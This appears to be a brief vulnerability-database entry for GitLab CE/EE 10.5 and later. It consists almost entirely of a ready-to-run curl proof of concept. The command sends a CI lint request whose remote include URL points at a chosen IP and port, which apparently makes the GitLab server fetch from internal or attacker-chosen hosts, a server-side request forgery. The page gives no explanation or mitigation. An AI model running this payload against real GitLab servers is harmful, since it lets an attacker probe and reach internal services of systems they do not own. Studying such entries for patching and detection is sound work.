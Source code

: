 <languages /> <translate>

漏洞影響
--------

</translate>

    GitLab CE/EE >=10.5

POC
---

    curl -s --show-error -H 'Content-Type: application/json' https://example.gitlab.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://<ip>:<port>/api/v1/targets?test.yml"}'